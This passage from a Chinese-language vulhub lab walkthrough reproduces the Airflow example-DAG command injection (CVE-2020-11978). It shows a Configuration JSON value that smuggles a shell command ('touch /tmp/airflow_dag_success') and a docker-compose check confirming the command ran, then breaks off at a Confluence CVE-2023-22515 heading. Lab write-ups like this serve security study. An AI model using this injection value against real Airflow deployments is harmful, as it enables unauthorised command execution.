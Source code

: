 在 Configuration JSON 中执行

```json
{"message":"'\";touch /tmp/airflow_dag_success;#"}
```

![在 Configuration JSON 中执行](./../../../../../images/vulhub/airflow/Apache Airflow 示例dag中的命令注入（CVE-2020-11978）/在 Configuration JSON 中执行.png)

等待一段时间后可以看到执行成功

![等待一段时间后可以看到执行成功](./../../../../../images/vulhub/airflow/Apache%20Airflow%20%E7%A4%BA%E4%BE%8Bdag%E4%B8%AD%E7%9A%84%E5%91%BD%E4%BB%A4%E6%B3%A8%E5%85%A5%EF%BC%88CVE-2020-11978%EF%BC%89/%E7%AD%89%E5%BE%85%E4%B8%80%E6%AE%B5%E6%97%B6%E9%97%B4%E5%90%8E%E5%8F%AF%E4%BB%A5%E7%9C%8B%E5%88%B0%E6%89%A7%E8%A1%8C%E6%88%90%E5%8A%9F.png)

在 CeleryWorker 容器中进行查看

```shell
┌──(root㉿kali)-[~]
└─# docker-compose -f /root/tools/vulhub/airflow/CVE-2020-11978/docker-compose.yml exec airflow-worker ls -l /tmp
total 8
-rw-r--r-- 1 airflow airflow    0 Dec  5 03:09 airflow_dag_success
drwx------ 2 airflow airflow 4096 Dec  5 02:49 pymp-zg47_6dp
drwx------ 4 root    root    4096 Apr  2  2020 tmp.m9QD2FWWw0
```

> 可以看到 touch /tmp/airflow_dag_success成功被执行

### 2.3 confluence

### 2.3.1 [Confluence 属性覆盖导致权限绕过漏洞 (CVE-2023-22515)](https://github.com/vulhub/vulhub/blob/master/confluence/CVE-2023-22515/README.zh-cn.md)

**环境部署**

